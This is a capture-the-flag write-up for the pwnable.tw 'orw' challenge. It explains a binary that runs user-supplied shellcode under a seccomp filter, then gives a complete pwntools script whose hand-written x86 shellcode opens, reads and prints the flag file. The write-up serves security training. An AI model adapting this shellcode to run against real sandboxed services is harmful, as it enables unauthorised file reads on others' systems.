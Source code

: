```yaml
---
title: pwnable.tw orw Writeup
date: "2019-10-12"
---
```


>Read the flag from /home/orw/flag.
>Only open read write syscall are allowed to use.


## Environment

```sh
$ uname -a
Linux base-debootstrap 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

## Findings
This file is 32bit ELF file.

```sh
$ file ./orw 
./orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
```

Disassemble result.

![](https://i.imgur.com/KoydAxy.png)

This file read shellcode and execute it, but since seccomp is used, system calls other than `open`, `read`, and `write` cannot be used.
So we need write shellcode that only used `open`, `read`, and `write`.

## Writeup
I wrote shellcode that only used `open`, `read`, `write` syscalls.
(Reffer: https://syscalls.kernelgrok.com/ )

```python
from pwn import *

HOST = 'chall.pwnable.tw'
PORT = 10001

context(os='linux', arch='i386')
context.log_level = 'debug'

shell_code = asm('\n'.join([
    'push %d' % u32('ag\0\0'),
    'push %d' % u32('w/fl'),
    'push %d' % u32('e/or'),
    'push %d' % u32('/hom'), # Flag path
    'mov edx, 0', # Mode
    'mov ecx, 0', # Open syscall flag
    'mov ebx, esp', # Buffer
    'mov eax, 5', # Open syscall number
    'int 0x80',

    'mov edx, 128', # Count
    'mov ecx, esp', # Buffer
    'mov ebx, eax', # fd
    'mov eax, 3', # Read syscall number
    'int 0x80',

    'mov edx, eax', # Count
    'mov ecx, esp', # Buffer
    'mov ebx, 0', # fd
    'mov eax, 4', # Write syscall number
    'int 0x80',
]))

# for executing code on remote or local
if len(sys.argv) > 1 and sys.argv[1] == '-r':
    conn = remote(HOST, PORT)
else:
    conn = process('./orw')

log.info('Pwning start')
conn.recvuntil("Give my your shellcode:")
conn.sendline(shell_code)
conn.recvall()
```